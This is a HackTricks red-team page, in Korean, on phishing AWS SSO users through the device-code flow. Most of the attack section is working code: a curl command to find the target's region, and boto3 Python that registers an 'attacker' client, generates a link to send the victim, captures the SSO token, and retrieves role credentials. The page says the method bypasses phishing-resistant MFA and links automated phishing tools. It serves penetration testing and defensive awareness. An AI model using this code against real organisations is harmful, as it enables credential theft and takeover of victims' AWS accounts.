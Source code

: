 # AWS - Identity Center & SSO Unauthenticated Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 **제로**부터 **히어로**까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고**되길 원하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **해킹 트릭을 공유하고 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 기여하세요.

</details>

## AWS 디바이스 코드 피싱

초기에 [**이 블로그 게시물**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)에서 제안된 것처럼, AWS SSO를 사용하는 사용자에게 **링크**를 보내면 **사용자가 수락하면** 공격자가 **사용자를 흉내내는 토큰을 얻어** **Identity Center**에서 사용자가 액세스할 수 있는 모든 역할에 액세스할 수 있습니다.

이 공격을 수행하려면 다음이 필요합니다:

- 피해자가 **Identity Center**를 사용해야 합니다.
- 공격자는 피해자가 사용하는 **서브도메인**을 알아야 합니다 `<victimsub>.awsapps.com/start`

이전 정보만으로도 **공격자는 사용자에게 링크를 보낼 수 있으며**, 사용자가 **수락하면** **공격자가 AWS 사용자 계정에 액세스**할 수 있습니다.

### 공격

1. **서브도메인 찾기**

공격자의 첫 번째 단계는 피해자 회사가 Identity Center에서 사용하는 서브도메인을 찾는 것입니다. 대부분의 회사는 여기에 자신의 이름 또는 이름의 변형을 사용할 것이므로 **OSINT** 또는 **추측 + BF**를 통해 이 작업을 수행할 수 있습니다.

이 정보를 통해 **Identity Center가 구성된 지역을 얻을 수 있습니다:**
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **피해자를 위한 링크 생성 및 전송**

다음 코드를 실행하여 피해자가 인증할 수 있는 AWS SSO 로그인 링크를 생성합니다.\
데모를 위해 이 코드를 파이썬 콘솔에서 실행하고 추후 토큰을 얻기 위해 일부 객체를 유지해야 합니다:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **피해자가 수락할 때까지 기다립니다**

피해자가 이미 AWS에 로그인되어 있으면 권한 부여를 수락하기만 하면 되지만, 그렇지 않은 경우 로그인한 후 권한 부여를 수락해야 합니다.\
현재 프롬프트는 다음과 같이 보입니다:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO 액세스 토큰 가져오기**

피해자가 프롬프트를 수락한 경우, 다음 코드를 실행하여 사용자를 흉내 내는 SSO 토큰을 생성합니다:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 액세스 토큰은 **8시간 동안 유효**합니다.

5. **사용자를 사칭합니다**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### "피싱할 수 없는 MFA"를 피싱하기

이전 공격이 **"피싱할 수 없는 MFA" (webAuth)를 사용하더라도 작동한다는 것을 알아서 재미있는 일입니다**. 이는 이전 **워크플로우가 사용된 OAuth 도메인을 벗어나지 않기 때문**입니다. 사용자가 로그인 도메인을 대체해야 하는 다른 피싱 공격과는 달리, 장치 코드 워크플로우는 **장치가 코드를 알고 있기 때문에 사용자가 다른 기기에서도 로그인할 수 있도록 준비**되어 있습니다. 사용자가 프롬프트를 수락하면, **초기 코드를 알고 있는 장치**만으로도 사용자의 자격 증명을 **검색**할 수 있습니다.

자세한 정보는 [**이 게시물을 확인하세요**](https://mjg59.dreamwidth.org/62175.html).

### 자동 도구

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 참고 자료

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 처음부터 전문가까지 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 홍보하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks 및 HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
